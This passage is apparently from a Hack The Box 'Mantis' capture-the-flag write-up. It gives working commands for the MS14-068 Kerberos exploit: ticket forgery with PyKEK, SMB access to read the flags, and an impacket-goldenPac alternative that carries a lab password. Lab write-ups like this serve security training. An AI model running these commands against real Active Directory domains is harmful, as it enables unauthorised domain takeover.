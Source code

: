 lookupname will reveal the SID

```sh
lookupnames james
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Hard/Mantis/Screenshots/lookupname.png)

Once the SID has been obtained, it is possible to run PyKEK to generate a Kerberos ticket by
running the command i was able to find a copy of `ms14-068.py` [here-PyKEK](https://github.com/mubix/pykek), and I’ll run it just like the help suggests:

```sh
python2 ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
```


```sh
 cp TGT_james@htb.local.ccache /tmp/krb5cc_0
```

```
smbclient -W htb.local //mantis/c$ -k
```

and now dir and get flags from `get Users\james\desktop\user.txt` and `get Users\administrator\desktop\root.txt`

### OR

The [MS14-068](https://www.trustedsec.com/blog/ms14-068-full-compromise-step-step/) exploit targets Kerberos and can be used to forge Kerberos tickets using domain user permissions. Lucky for us, [impacket-goldenPac](https://github.com/SecureAuthCorp/impacket/blob/master/examples/goldenPac.py) can be used to automatically exploit the vulnerability.Impacket has a script

```sh
impacket-goldenPac 'htb.local/james:J@m3s_P@ssW0rd!@mantis'
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Hard/Mantis/Screenshots/goldenpac.png)
